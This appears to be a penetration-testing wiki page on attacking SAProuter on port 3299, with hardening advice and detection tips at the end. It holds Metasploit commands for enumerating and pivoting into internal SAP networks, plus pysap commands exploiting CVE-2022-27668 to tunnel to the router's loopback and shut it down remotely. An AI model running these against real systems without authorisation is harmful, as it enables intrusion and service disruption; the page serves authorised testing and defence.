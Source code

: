 # # 3299/tcp - Pentesting SAProuter

```text
PORT     STATE SERVICE    VERSION
3299/tcp open  saprouter?
```

This is a summary of the post from [https://blog.rapid7.com/2014/01/09/piercing-saprouter-with-metasploit/](https://blog.rapid7.com/2014/01/09/piercing-saprouter-with-metasploit/)

## Understanding SAProuter Penetration with Metasploit

SAProuter acts as a reverse proxy for SAP systems, primarily to control access between the internet and internal SAP networks. It's commonly exposed to the internet by allowing TCP port 3299 through organizational firewalls. This setup makes SAProuter an attractive target for penetration testing because it might serve as a gateway to high-value internal networks.

**Scanning and Information Gathering**

Initially, a scan is performed to identify if a SAP router is running on a given IP using the **sap_service_discovery** module. This step is crucial for establishing the presence of a SAP router and its open port.

```text
msf> use auxiliary/scanner/sap/sap_service_discovery
msf auxiliary(sap_service_discovery) > set RHOSTS 1.2.3.101
msf auxiliary(sap_service_discovery) > run
```

Following the discovery, further investigation into the SAP router's configuration is carried out with the **sap_router_info_request** module to potentially reveal internal network details.

```text
msf auxiliary(sap_router_info_request) > use auxiliary/scanner/sap/sap_router_info_request
msf auxiliary(sap_router_info_request) > set RHOSTS 1.2.3.101
msf auxiliary(sap_router_info_request) > run
```

**Enumerating Internal Services**

With obtained internal network insights, the **sap_router_portscanner** module is used to probe internal hosts and services through the SAProuter, allowing a deeper understanding of internal networks and service configurations.

```text
msf auxiliary(sap_router_portscanner) > set INSTANCES 00-50
msf auxiliary(sap_router_portscanner) > set PORTS 32NN
```

This module's flexibility in targeting specific SAP instances and ports makes it an effective tool for detailed internal network exploration.

**Advanced Enumeration and ACL Mapping**

Further scanning can reveal how Access Control Lists (ACLs) are configured on the SAProuter, detailing which connections are allowed or blocked. This information is pivotal in understanding security policies and potential vulnerabilities.

```text
msf auxiliary(sap_router_portscanner) > set MODE TCP
msf auxiliary(sap_router_portscanner) > set PORTS 80,32NN
```

**Blind Enumeration of Internal Hosts**

In scenarios where direct information from the SAProuter is limited, techniques like blind enumeration can be applied. This approach attempts to guess and verify the existence of internal hostnames, revealing potential targets without direct IP addresses.

**Leveraging Information for Penetration Testing**

Having mapped the network and identified accessible services, penetration testers can utilize Metasploit's proxy capabilities to pivot through the SAProuter for further exploration and exploitation of internal SAP services.

```text
msf auxiliary(sap_hostctrl_getcomputersystem) > set Proxies sapni:1.2.3.101:3299
msf auxiliary(sap_hostctrl_getcomputersystem) > set RHOSTS 192.168.1.18
msf auxiliary(sap_hostctrl_getcomputersystem) > run
```

**Conclusion**

This approach underscores the importance of secure SAProuter configurations and highlights the potential for accessing internal networks through targeted penetration testing. Properly securing SAP routers and understanding their role in network security architecture is crucial for protecting against unauthorized access.

For more detailed information on Metasploit modules and their usage, visit [Rapid7's database](http://www.rapid7.com/db).

---

## Recent Vulnerabilities (2022-2025)

### CVE-2022-27668 – Improper Access Control ➜ Remote Administrative Command Execution

In June 2022 SAP released Security Note **3158375** addressing a critical flaw (CVSS 9.8) in SAProuter (all kernels ≥ 7.22). An unauthenticated attacker can abuse permissive `saprouttab` entries to **send administration packets** (e.g. *shutdown*, *trace-level*, *connection-kill*) from a remote host, even when the router was started without the `-X` remote-admin option.

The issue results from the possibility to build a tunnel to the router’s own loopback interface by targeting the unspecified address **0.0.0.0**. Once the tunnel is established, the attacker gains local-host privileges and can run any admin command.

Practical exploitation can be reproduced with the **pysap** framework:

```bash
# 1. Build a loopback tunnel through the vulnerable SAProuter
python router_portfw.py -d <ROUTER_IP> -p 3299 \
                        -t 0.0.0.0    -r 3299 \
                        -a 127.0.0.1  -l 3299 -v

# 2. Send an admin packet (here: stop the remote router)
python router_admin.py -s -d 127.0.0.1 -p 3299
```

**Affected versions**

* Stand-alone SAProuter 7.22 / 7.53
* Kernel 7.49, 7.77, 7.81, 7.85–7.88 (incl. KRNL64NUC/UC)

**Fix / Mitigation**

1. Apply the patch delivered with SAP Note **3158375**.
2. Remove wildcard (`*`) targets from `P` and `S` lines in `saprouttab`.
3. Make sure the router is started **without** the `-X` option and is **not** directly exposed to the Internet.

---

## Updated Tooling & Tricks

* **pysap** – actively maintained and provides `router_portfw.py`, `router_admin.py` & `router_trace.py` for crafting custom NI/Router packets, fuzzing ACLs or automating the CVE-2022-27668 exploit.
* **Nmap** – extend service detection by adding the custom SAProuter probe:

  ```text
  Probe TCP SAProuter q|\x00\x00\x00\x00|
  ports 3299
  match saprouter m|SAProuter ([\d.]+)| p/SAProuter/ v/$1/
  ```

  Combine with NSE scripts or `--script=banner` to quickly fingerprint versions that leak the banner string (`SAProuter <ver> on '<host>'`).
* **Metasploit** – the auxiliary modules shown above still work through a SOCKS or NI proxy created with pysap, enabling full framework integration even when the router blocks direct access.

---

## Hardening & Detection Checklist

* Filter port **3299/TCP** on the perimeter firewall – allow traffic only from trusted SAP support networks.
* Keep SAProuter **fully patched**; verify with `saprouter -v` and compare against the latest kernel patch level.
* Use **strict, host-specific** entries in `saprouttab`; avoid `*` wildcards and deny `P`/`S` rules that target arbitrary hosts or ports.
* Start the service with **`-S <secudir>` + SNC** to enforce encryption and mutual authentication.
* Disable remote administration (`-X`) and, if possible, bind the listener to `127.0.0.1` while using an external reverse proxy for required traffic.
* Monitor the **dev_rout** log for suspicious `ROUTER_ADM` packets or unexpected `NI_ROUTE` requests to `0.0.0.0`.

---

## **References**

- [https://www.rapid7.com/blog/post/2014/01/09/piercing-saprouter-with-metasploit/](https://www.rapid7.com/blog/post/2014/01/09/piercing-saprouter-with-metasploit/)
- [https://sec-consult.com/vulnerability-lab/advisory/improper-access-control-in-sap-saprouter/](https://sec-consult.com/vulnerability-lab/advisory/improper-access-control-in-sap-saprouter/)

## Shodan

- `port:3299 !HTTP Network packet too big`

